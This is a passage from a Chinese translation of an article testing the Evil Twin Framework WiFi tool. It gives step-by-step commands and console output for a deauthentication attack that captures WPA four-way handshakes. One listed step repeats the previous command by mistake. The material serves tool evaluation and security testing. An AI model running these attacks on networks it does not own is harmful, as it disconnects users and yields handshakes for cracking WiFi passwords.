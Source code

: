 
在实际的测试场景中，确保你使用了正确的信息来替换这些缩写。


#### 在解除认证攻击后捕获 WPA 四次握手的数据包。


这个场景（图 2）做了两个方面的考虑：<ruby> 解除认证攻击 <rt>  de-authentication attack </rt></ruby>和捕获 WPA 四次握手数据包的可能性。这个场景从一个启用了 WPA/WPA2 的接入点开始，这个接入点有一个已经连上的客户端设备（在本例中是一台智能手机）。目的是通过常规的解除认证攻击（LCTT 译注：类似于 DoS 攻击）来让客户端断开和 WiFi 的网络，然后在客户端尝试重连的时候捕获 WPA 的握手包。重连会在断开连接后马上手动完成。


![Scenario for capturing a WPA handshake after a de-authentication attack](/data/attachment/album/201902/25/000903by6sncwau8bw3z4w.png "Scenario for capturing a WPA handshake after a de-authentication attack")


*图 2：在解除认证攻击后捕获 WPA 握手包的场景*


在这个例子中需要考虑的是 ETF 的可靠性。目的是确认工具是否一直都能捕获 WPA 的握手数据包。每个工具都会用来多次复现这个场景，以此来检查它们在捕获 WPA 握手数据包时的可靠性。


使用 ETF 来捕获 WPA 握手数据包的方法不止一种。一种方法是使用 AirScanner 和 AirInjector 两个模块的组合；另一种方法是只使用 AirInjector。下面这个场景是使用了两个模块的组合。


ETF 启用了 AirScanner 模块并分析 IEEE 802.11 数据帧来发现 WPA 握手包。然后 AirInjecto 就可以使用解除认证攻击来强制客户端断开连接，以进行重连。必须在 ETF 上执行下面这些步骤才能完成上面的目标：


1. 进入 AirScanner 配置模式：`config airscanner`
2. 设置 AirScanner 不跳信道：`config airscanner`
3. 设置信道以嗅探经过 WiFi 接入点信道的数据（APC）：`set fixed_sniffing_channel = <APC>`
4. 使用 CredentialSniffer 插件来启动 AirScanner 模块：`start airscanner with credentialsniffer`
5. 从已嗅探的接入点列表中添加目标接入点的 BSSID（APS）：`add aps where ssid = <APS>`
6. 启用 AirInjector 模块，在默认情况下，它会启用解除认证攻击：`start airinjector`


这些简单的命令设置能让 ETF 在每次测试时执行成功且有效的解除认证攻击。ETF 也能在每次测试的时候捕获 WPA 的握手数据包。下面的代码能让我们看到 ETF 成功的执行情况。



```
███████╗████████╗███████╗
██╔════╝╚══██╔══╝██╔════╝
█████╗     ██║   █████╗  
██╔══╝     ██║   ██╔══╝  
███████╗   ██║   ██║    
╚══════╝   ╚═╝   ╚═╝    
                                       

[+] Do you want to load an older session? [Y/n]: n
[+] Creating new temporary session on 02/08/2018
[+] Enter the desired session name:
ETF[etf/aircommunicator/]::> config airscanner
ETF[etf/aircommunicator/airscanner]::> listargs
  sniffing_interface =               wlan1; (var)
              probes =                True; (var)
             beacons =                True; (var)
        hop_channels =               false; (var)
fixed_sniffing_channel =                  11; (var)
ETF[etf/aircommunicator/airscanner]::> start airscanner with
arpreplayer        caffelatte         credentialsniffer  packetlogger       selfishwifi        
ETF[etf/aircommunicator/airscanner]::> start airscanner with credentialsniffer
[+] Successfully added credentialsniffer plugin.
[+] Starting packet sniffer on interface 'wlan1'
[+] Set fixed channel to 11
ETF[etf/aircommunicator/airscanner]::> add aps where ssid = CrackWPA
ETF[etf/aircommunicator/airscanner]::> start airinjector
ETF[etf/aircommunicator/airscanner]::> [+] Starting deauthentication attack
                    - 1000 bursts of 1 packets
                    - 1 different packets
[+] Injection attacks finished executing.
[+] Starting post injection methods
```